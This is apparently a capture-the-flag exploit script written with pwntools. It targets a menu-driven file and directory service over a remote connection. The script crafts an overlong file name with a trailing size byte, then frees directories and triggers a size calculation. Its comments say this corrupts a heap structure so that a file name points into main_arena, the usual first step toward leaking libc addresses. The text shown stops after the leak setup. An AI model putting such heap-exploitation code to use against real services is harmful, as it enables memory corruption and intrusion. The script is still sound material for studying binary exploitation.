 ```python
context.log_level = 'INFO'

elf = ELF(ELF_PATH)
libc = ELF(LIBC_PATH)

def my_recvuntil(s, delim):
    res = ""
    while delim not in res:
        c = s.recv(1)
        res += c
        sys.stdout.write(c)
        sys.stdout.flush()
    return res

def myexec(cmd):
    return subprocess.check_output(cmd, shell=True)

def str_addr(s, f): # search string address in file
    result = list(f.search(s+"\x00"))
    if not len(result): # no result
        return None
    else:
        return result[0]

def create_file(name, size):
    r.sendlineafter(":", "4")
    r.sendafter(":", name)
    r.sendlineafter(":", str(size))

def change_dir(name):
    r.sendlineafter(":", "2")
    r.sendafter(":", name)

def remove(name):
    r.sendlineafter(":", "5")
    r.sendafter(":", name)

def make_dir(name):
    r.sendlineafter(":", "3")
    r.sendafter(":", name)

def ls():
    r.sendlineafter(":", "1")

def cal():
    r.sendlineafter(":", "6")

if __name__ == "__main__":

    r = remote(HOST, PORT)
    #r = process(ELF_PATH)

    # overwrite &file->fize_size (address of file_size)
    # use cal() to let file->name point to main_arena+88
    make_dir("AAAA")
    make_dir("BBBB")
    make_dir("CCCC")
    create_file("F"*24+p8(0x10), 64)
    remove("BBBB\n")
    remove("CCCC\n")
    cal()
    ls()

```